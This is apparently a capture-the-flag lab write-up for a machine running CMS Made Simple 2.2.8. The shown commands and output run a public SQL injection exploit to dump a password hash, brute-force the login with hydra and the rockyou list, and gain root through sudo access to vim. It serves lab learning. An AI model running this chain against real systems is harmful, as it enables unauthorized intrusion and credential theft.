 ## Credential
mitch:secret

## Webapge: /simple
- Running 'CMS Made Simple' version 2.2.8
- Login page at `/simeple/admin`
- Search with searchsploit, only 1 script both fit the version and don't require authentication.
		```bash
		$ searchsploit Made Simple
		...
		CMS Made Simple < 2.2.10 - SQL Injection                                                                                                                   | php/webapps/46635.py
		```
- Run the script, it cracks the credential.
		```bash
		$ python 46635.py -u http://10.10.230.228/simple

		[+] Salt for password found: 1dac0d92e9fa6bb2
		[+] Username found: mitch
		[+] Email found: admin@admin.com
		[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
		```
- Run hydra to crack the password.
		```bash
		$ hydra -l mitch -P ~/tools/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.230.228 http-post-form '/simple/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:incorrect' -V -f
		...
		[ATTEMPT] target 10.10.230.228 - login "mitch" - pass "robert" - 77 of 14344398 [child 2] (0/0)
		[ATTEMPT] target 10.10.230.228 - login "mitch" - pass "danielle" - 78 of 14344398 [child 15] (0/0)
		[80][http-post-form] host: 10.10.230.228   login: mitch   password: secret
		[STATUS] attack finished for 10.10.230.228 (valid pair found)
		1 of 1 target successfully completed, 1 valid password found
		Hydra (http://www.thc.org/thc-hydra) finished at 2021-06-17 09:54:58
		```
## User Own
- Login to the ssh (port 2222) with the credential above

## Root Own
- Found that we can sudo with vim.
		```bash
		mitch@Machine:~$ sudo -l
		User mitch may run the following commands on Machine:
			(root) NOPASSWD: /usr/bin/vim
		```
- Read root flag using vim. Done.
		```bash
		mitch@Machine:~$ sudo vim /root/root.txt
		```


